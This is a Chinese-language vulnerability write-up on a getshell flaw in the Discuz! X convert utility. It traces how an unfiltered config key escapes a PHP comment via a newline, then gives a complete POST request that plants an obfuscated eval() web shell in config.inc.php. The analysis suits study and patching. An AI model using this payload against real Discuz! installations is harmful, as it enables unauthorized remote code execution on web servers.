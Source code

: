Discuz! X 系列全版本，版本转换功能导致Getshell
==============================================

一、漏洞简介
------------

存在问题的代码在`/utility/convert/`目录下，这部分的功能主要是用于Dz系列产品升级/转换。

二、漏洞影响
------------

Discuz! X 全版本

三、复现过程
------------

### 漏洞分析

入口`utility/convert/index.php`

    require './include/common.inc.php';

    $action = getgpc('a');
    $action = empty($action) ? getgpc('action') : $action;
    $source = getgpc('source') ? getgpc('source') : getgpc('s');

取`$_POST['a']`,直接赋值给`$action`，此时`$action = config`;

    } elseif($action == 'config' || CONFIG_EMPTY) {      
        require DISCUZ_ROOT.'./include/do_config.inc.php';  
    } elseif($action == 'setting') {

满足条件，引入`./include/do_config.inc.php`

    @touch($configfile);
     ......
    if(submitcheck()) {
        $newconfig = getgpc('newconfig');
        if(is_array($newconfig)) {
            $checkarray = $setting['config']['ucenter'] ? array('source', 'target', 'ucenter') : array('source', 'target');
            foreach ($checkarray as $key) {
          ......
        }
        save_config_file($configfile, $newconfig, $config_default);

`$newconfig`从`$_POST[newconfig]`获取数据，`save_config_file`函数保将`$newconfig`保存到`$configfile`文件中，即`config.inc.php`文件。跟进该函数。

    function save_config_file($filename, $config, $default) {
        $config = setdefault($config, $default);// 将$config中的空白项用 $default 中对应项的值填充
        $date = gmdate("Y-m-d H:i:s", time() + 3600 * 8);
        $year = date('Y');
        $content = <<<EOT
    <?php


    \$_config = array();

    EOT;
        $content .= getvars(array('_config' => $config));
        $content .= "\r\n// ".str_pad('  THE END  ', 50, '-', STR_PAD_BOTH)." //\r\n\r\n?>";
        file_put_contents($filename, $content);
    }

getvars函数处理，此时的`$config` =
`$newconfig+config.default.php对应项的补充`。看一下getvars函数：

    function getvars($data, $type = 'VAR') {
        $evaluate = '';
        foreach($data as $key => $val) {
            if(!preg_match("/^[a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*$/", $key)) {
                continue;
            }
            if(is_array($val)) {
                $evaluate .= buildarray($val, 0, "\${$key}")."\r\n";
            } else {
                $val = addcslashes($val, '\'\\');
                $evaluate .= $type == 'VAR' ? "\$$key = '$val';\n" : "define('".strtoupper($key)."', '$val');\n";
            }
        }
        return $evaluate;
    }

满足if条件会执行`buildarray`函数，此时`$key=_config`，`$val`=上面的`$config`。最终造成写入的在该函数中（update.php
2206行）：

    foreach ($array as $key => $val) {
            if($level == 0) {
                //str_pad — 使用另一个字符串填充字符串为指定长度
                // 第一个参数是要输出的字符串，指定长度为50，用'-'填充，居中
                $newline = str_pad('  CONFIG '.strtoupper($key).'  ', 50, '-', STR_PAD_BOTH);
                $return .= "\r\n// $newline //\r\n";
            }

本意是使用`$config`数组的key作为每一块配置区域的\"注释标题\"，写入配置文件的\$newline依赖于\$key，而\$key是攻击者可控的。

未对输入数据进行正确的边界处理，导致可以插入换行符，逃离注释的作用范围，从而使输入数据转化为可执行代码。

### 漏洞复现

在产品升级/转换-\>选择产品转换程序 -\>设置服务器信息 这里抓包，

payload：

    POST /dz/utility/convert/index.php HTTP/1.1
    Host: www.0-sec.org:8001
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 278
    Origin: http://127.0.0.1:8001
    Connection: close
    Referer: http://127.0.0.1:8001/dz/utility/convert/index.php
    Upgrade-Insecure-Requests: 1

    a=config&source=d7.2_x1.5&submit=yes&newconfig[aaa%0a%0deval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83).CHR(84).CHR(91).CHR(108).CHR(97).CHR(110).CHR(118).CHR(110).CHR(97).CHR(108).CHR(93).CHR(59).CHR(34).CHR(41).CHR(59));//]=aaaa

![](./resource/Discuz!X系列全版本版本转换功能导致Getshell/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/7492\#toc-18
